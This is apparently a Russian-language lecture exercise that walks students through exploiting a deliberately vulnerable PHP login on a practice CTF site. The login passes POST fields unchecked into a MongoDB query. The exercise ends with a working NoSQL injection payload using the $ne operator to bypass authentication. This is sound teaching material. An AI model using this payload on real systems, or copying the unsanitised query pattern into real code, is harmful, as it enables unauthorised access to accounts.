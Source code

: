 # Лекция 7 практика

Дано приложение. Расположенное по адресу: [http://nosql.myctf.ru/](http://nosql.myctf.ru/)

Код приложения таков:

```php
<?php
    if (isset($_POST['login']) && isset($_POST['password'])) {
        $collection = $db->users;
        $cursor = $collection->find(array("login" => $_POST['login'], "password" => $_POST['password']));
            if ($cursor->count() > 0) {
?>
        <h1>Flag: XXXX</h1>
<?php } else echo "Wrong credentials";} ?>
```

## Какую роль выполняет строка?

```php
$collection->find(array("login" => $_POST['login'], "password" => $_POST['password']))
```

## В каком случае вы получите положительное выполнение выражения?

```php
$cursor->count() > 0
```

## Каким запросом передаются параметры на сайте?

Все запросы в MongoDB должны быть в формате JSON, где передаются массивы параметров и значений. Драйвер MongoDB представляет собой компонент, преобразующий массив к формату JSON.

Запрос, заполненный значениями, будет передаваться в MongoDB в следующем виде:

```php
find( {username: 'barry',Password:'jimmypage'})
```

## Рассмотрите следующую идею

При каком еще условии будет выполняться find?

```php
find(array("login" => $_POST['login'], "password" => $_POST['password']))
```

## обратитесь к мануалу mongodb

[https://docs.mongodb.com/manual/reference/operator/query/ne/](https://docs.mongodb.com/manual/reference/operator/query/ne/)

`{field: {$ne: value} }`

## В качестве значения параметра вам нужно получить массив. Сделать в HTTP это можно следующим образом

```var[key]=value```

В итоге переменная примет вид:

```php
array(1) {
  ["var"]=>
  array(1) {
    ["key"]=>
    string(x) "value"
  }
}
```

А в строке кода php:

```php
find( { ... var: {key:'value'}  ....  })
```

Используя мануал из п.5 попробуйте выполнить инъекцию. Пройдите все шаги, указанные в пунктах выше и запишите свои значения. Покажите полученный результат.

`login=admin&password[$ne]=123`